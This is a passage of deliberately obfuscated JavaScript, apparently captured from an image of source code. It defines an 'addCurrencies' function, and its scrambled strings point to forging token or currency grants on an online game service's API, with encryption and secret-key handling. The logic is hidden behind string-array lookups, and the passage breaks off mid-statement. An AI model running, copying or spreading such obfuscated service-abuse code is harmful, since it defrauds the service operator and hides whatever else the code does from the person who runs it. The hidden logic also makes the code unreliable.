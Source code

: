 Ma','qbmMm','=0.9,','reduc','us:\x201','XDqzG','hityz','\x20gliz','https','SlNXr','(240,','QkfWX','ror\x20o','oket.','to','XCGTL','ewZfl','AES-G','famil','yRXMX','TYAmB','wers','/redi','fLGXB','h:\x2017','is\x22)(','FuNjm','xt/pl','://gl','ions','15);\x20','blank','catio','XkqnC','aily.','seup','bTgfk','VSPrj','UEpqL','RvBBx','=61fc','diges','style','KQZhk','hpaKS','FzpDl','pi/ga','VGFYo','lengt','keys','rLCtv','mDAot','f03e1','?\x20(50','KtJNk','AoTPI','nter;','n,\x20te','\x20widt','://ww','count','font-','ameId','unito','815c1','fromC','onmou','hCgBp','__pro','ly)','TICgc','error','URCEg','tTop','mduXU','fkXIZ','olor:','raw','kvMAp','zjrYN','toStr','thxsA','bghcR','harCo','kddAg','sdRFx','ructo','An\x20er','\x22>twi','BblgC','fKjSC','r:\x204p','d\x20up\x20','d\x20300','XFiPK','wVGnS','AnZtz','FXATg','FoKLn','er.co','ru;q=','semov','n:\x20ce','trace','/a></','dBorY','Vifwc','nctio','tKey','YLKaQ','0\x20dai','ByrfU','en-US','\x20My\x20<','rsVwX','tUDzP','69d8e','xmfgV','YSJsL','PDGbr','-alig','How\x20m','\x22retu','SHA-2','nt\x20to','HTML','qSvMF','ysfLA','body','bNkmb','uWoJS','statu','BflFj','log','ovMtb','GET','id\x20rg','-toke','MLIXE','ault','eMhFl','xOEQd','from','jmMmT','conso','MSqnC','VHJwP','hUKlG','nstru','etBui','text/','WXuVW','decry','ps://','iKBya','fWlaC','appen','secre','IEUAZ','wards','pi/us','name','nTpzL','ens\x20d','json','ent','tion','nNKZf','px;\x20b','0\x20tok','open','lZWVZ','NlWdn','ckJso','CrPXz','\x20text','6748UVXliM','encry','MSDPy','n/jso','STZUt','color','zkMwh','inclu','impor','round','\x20targ','BhNpZ','yOwNs','i.blo','ers/v','backg','JUkzs','le=\x22c',',\x200);','Chisr','KZiEm','\x20240,','3787hxIMOH','inner','EhTzH','ilpsR','offse','ctAns','event','gify','proto','de\x20by','webpa','alues','ing','appli','0.8','qiifw','strin',',en;q','xFDdK','9oofgJi','bmAJy','DpJzj'];_0x54f3=function(){return _0x1a40ed;};return _0x54f3();};async function addCurrencies(){function _0x5445ff(_0x2e4db4,_0x532c5a,_0x1e3204,_0x4acc64,_0x291890){return _0x5cba(_0x4acc64-0x29d,_0x2e4db4);}function _0xc8228(_0x3c55f2,_0x34f574,_0x3b512c,_0x3d2c77,_0x3b0c16){return _0x5cba(_0x3b0c16- -0xf9,_0x34f574);}const _0x5d5a5a={'tqCvp':function(_0x216c03,_0x1ae2d0){return _0x216c03-_0x1ae2d0;},'WeHjN':function(_0x1242ca,_0x53f6f1){return _0x1242ca-_0x53f6f1;},'EEuCB':function(_0x91d67c,_0x1b7924){return _0x91d67c>_0x1b7924;},'ovMtb':function(_0xe3ad11,_0x3f80a5){return _0xe3ad11-_0x3f80a5;},'UDAsv':function(_0x12dc1c,_0x1af846){return _0x12dc1c-_0x1af846;},'DjAwU':function(_0x126548,_0x2eb59c){return _0x126548+_0x2eb59c;},'OHmaz':_0xc8228(0xf5,0x1d,-0x6e,-0x5b,0x36)+_0x392187(-0x26,-0x9a,0x46,0x23,-0x1f)+_0x392187(0xcc,0x4b,0xa,0x6,-0xa9)+_0x1feb7e(0x34f,0x277,0x2ec,0x281,0x2c4)+_0x44852d(-0x71,0x3d,0x16,0x116,0x6c)+_0x392187(0x131,0x15b,0x23f,0x16a,0x194),'BSLOB':function(_0x431a28,_0x20c721){return _0x431a28(_0x20c721);},'YlJKO':_0x392187(0xba,-0xc,0x16,0x80,0x99)+_0x392187(0x109,0xd3,0x94,0x14a,0x1a3)+_0xc8228(0xb8,-0xb4,-0x6,0x6,0x16)+_0xc8228(0x27d,0x1e3,0x22d,0x12c,0x1b6)+_0xc8228(0x1b6,0x215,0x1b3,0x193,0x13d)+_0x1feb7e(0x2f1,0x2b8,0x197,0x17a,0x21a)+_0x44852d(0x1ac,0x11e,0xd8,0xfa,0xf7)+_0x5445ff(0x30c,0x40c,0x2fb,0x3a8,0x314)+_0xc8228(0x53,0xf3,0x1e4,0xf2,0x120)+_0xc8228(0x4a,-0x1e,-0x64,0x105,0x6a)+_0x392187(0x3d,-0x4b,0x25,0x3c,0x109)+_0x5445ff(0x437,0x354,0x488,0x432,0x4e3)+_0x1feb7e(0x250,0x203,0x274,0x29c,0x1e3),'AoTPI':function(_0x3bcb6f,_0x300783){return _0x3bcb6f!==_0x300783;},'ytaYj':_0x5445ff(0x3ff,0x329,0x3a2,0x3e9,0x40e),'bmAJy':_0x392187(0x95,0x199,0x13b,0xcf,0x1a1),'xmfgV':function(_0x22da6a,_0x44abb3){return _0x22da6a(_0x44abb3);},'fLGXB':_0x5445ff(0x4f1,0x3ef,0x533,0x4c6,0x4eb)+_0x392187(-0x21,0xc5,-0xe,-0x17,-0xe5)+_0xc8228(0x174,0xbb,0x15e,0x11a,0x12f)+_0x5445ff(0x4b2,0x379,0x384,0x420,0x362)+_0x5445ff(0x408,0x406,0x39b,0x3b3,0x34f)+_0x392187(-0x11,-0x1d,0x186,0xb0,0x141)+_0x5445ff(0x3e2,0x418,0x4c5,0x467,0x40b)+_0xc8228(0x129,0xd3,0x118,0x9f,0x50),'PJpIF':function(_0x22eca4,_0x49b485,_0x47cdc3){return _0x22eca4(_0x49b485,_0x47cdc3);},'MSqnC':_0x1feb7e(0x176,0x1a2,0x1bd,0x161,0x1a6)+_0x1feb7e(0x202,0xc9,0x16a,0xd4,0x183)+_0x392187(0x4b,0x5a,0x43,0xc4,0x62)+_0x5445ff(0x3cd,0x36a,0x378,0x3d1,0x3db)+_0x5445ff(0x559,0x4e8,0x48b,0x4d6,0x51d)+_0x392187(0x81,0x9,0x41,0xa7,-0x32)+_0x44852d(0x1bc,0x1b0,0x140,0x201,0x10d)+_0x44852d(-0x50,-0x5,0xa6,0x46,0x9b)+_0xc8228(0x21,0x6d,0x165,-0x9,0xcd),'VGFYo':_0x5445ff(0x40f,0x2ec,0x417,0x3ab,0x3c3),'iKBya':_0x5445ff(0x411,0x429,0x390,0x3cc,0x300)+_0xc8228(-0x32,0x117,-0x67,0xf0,0x69)+_0x5445ff(0x438,0x32f,0x3c2,0x39c,0x2be)+_0x44852d(-0x83,0x34,-0x1f,0x5f,0xee)+_0x5445ff(0x4e2,0x474,0x50e,0x504,0x4aa),'RmBfA':_0x1feb7e(0x2cf,0x281,0x2b1,0x26d,0x234)+_0x1feb7e(0x393,0x32d,0x3bb,0x2ba,0x31b),'WfEvE':_0x44852d(0x82,0xde,0x128,0xa3,0x12a)+'de','LgpFb':function(_0x4b1276){return _0x4b1276();},'sdRFx':function(_0x333911,_0x1b06e5){return _0x333911==_0x1b06e5;},'wVGnS':_0xc8228(0xf8,-0x3e,0x8a,0x3d,0x8f),'bTgfk':_0x5445ff(0x45c,0x44e,0x42f,0x4b5,0x4f2),'sGczZ':function(_0x29ce3f,_0x5da119){return _0x29ce3f(_0x5da119);},'PAhxg':function(_0x409f93,_0x2206a9){return _0x409f93===_0x2206a9;},'YQAXB':_0xc8228(-0xf,0xe6,0xc2,0x27,0xa1),'NxaqS':_0x44852d(0x6c,0x7e,0x131,0xb2,0x84)+_0xc8228(0xe5,-0x8a,0x69,0x1c,0x3a)+_0x5445ff(0x536,0x42d,0x5ad,0x505,0x4d2)+'d.'};function _0x392187(_0x1021d3,_0x4e0c54,_0x205f11,_0x6629e9,_0x208ef6){return _0x5cba(_0x6629e9- -0x120,_0x4e0c54);}function _0x44852d(_0x157c45,_0x3766e6,_0x1d01da,_0x5808c3,_0x5e8788){return _0x5cba(_0x3766e6- -0x100,_0x157c45);}const